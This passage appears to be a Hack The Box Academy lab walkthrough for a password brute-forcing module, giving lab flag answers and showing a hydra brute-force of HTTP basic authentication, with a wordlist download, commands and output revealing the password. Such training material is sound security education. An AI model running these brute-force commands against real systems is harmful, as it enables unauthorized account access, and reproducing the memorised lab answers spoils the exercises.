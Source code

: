 Subsequently, students will run the script and will attain the correct password and gain the flag:

Code: shell

```shell
python3 solver.py
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-vxsusos1qt]─[~]
└──╼ [★]$ python3 solver.py 

Correct password found: gateway
Flag: {hidden}
```

Answer: `HTB{Brut3_F0rc3_M4st3r}`

# Basic HTTP Authentication

## Question 1

### "After successfully brute-forcing, and then logging into the target, what is the full flag you find?"

After spawning the target, students will use `hydra` to brute-force the log-in of the `basic-auth-user` found in the section and download the wordlist `2023-200_most_used_passwords.txt`, which will be used as a dictionary for the password:

Code: shell

```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt STMIP http-get / -s STMPO
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-5gy2c284c4]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt

┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-5gy2c284c4]─[~]
└──╼ [★]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.54.201 http-get / -s 52992

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 01:09:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://94.237.54.201:52992/
[52992][http-get] host: 94.237.54.201   login: basic-auth-user   password: Password@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-30 01:09:55
```
